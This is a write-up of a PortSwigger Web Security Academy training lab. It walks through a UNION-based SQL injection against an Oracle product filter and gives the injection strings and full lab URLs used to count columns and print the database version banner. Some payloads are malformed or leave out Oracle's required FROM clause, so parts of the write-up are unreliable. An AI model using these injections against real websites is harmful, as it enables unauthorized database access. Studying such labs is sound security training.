


## LAB : SQL injection attack, querying the database type and version on Oracle
[SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Solution

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. Display the Oracle database type and version

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' ORDER BY 3--`

### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` 
`' UNION SELECT 'abc','def'--` - Both Columns are of type string/varchar

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,'abc'--`

### 3.  Display the Oracle database type and version
We can now use `UNION` attack to banner values.

`' UNION SELECT 'BANNER',banner FROM v$version--`

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' UNION SELECT 'BANNER',banner FROM v$version--`

<!-- EOF -->